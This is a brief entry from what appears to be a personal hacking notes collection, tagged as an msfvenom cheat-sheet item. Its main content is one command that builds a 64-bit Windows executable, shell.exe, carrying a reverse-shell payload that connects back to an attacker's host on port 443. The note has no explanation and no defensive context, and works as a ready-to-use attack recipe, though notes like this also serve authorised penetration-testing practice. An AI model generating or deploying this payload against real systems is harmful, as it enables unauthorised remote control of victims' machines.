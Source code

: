 # MSFVENOM Windows Binary (.exe) executable 64 Bit (x64) Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

# References
- [20221003150771](/zet/20221003150771/README.md) MSFVENOM Windows Binary (.exe) executable 64 Bit (x64)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
